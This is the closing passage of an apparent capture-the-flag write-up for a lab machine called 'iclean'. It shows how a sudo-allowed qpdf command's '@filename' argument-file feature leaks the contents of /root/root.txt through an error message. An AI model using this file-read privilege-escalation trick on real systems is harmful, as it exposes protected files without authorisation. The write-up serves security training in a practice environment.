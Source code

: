There is a lot of options.

### Read the root flag 

When you type : ``qpdf --help=usage``, there is this option : 
```bash
- @filename is an argument file; each line is treated as a separate
  command-line argument
  ```

So , we could use : ``sudo /usr/bin/qpdf @/root/root.txt -``

```bash
consuela@iclean:~$ sudo /usr/bin/qpdf @/root/root.txt -
qpdf: open 9458bb6c2b5741caaf1a6f0df00d711c: No such file or directory
consuela@iclean:~$
```

As you can see, it is working because I know the filename and there is only one line.


## Conclusion

The box was really good and interesting.


Thanks for reading :)
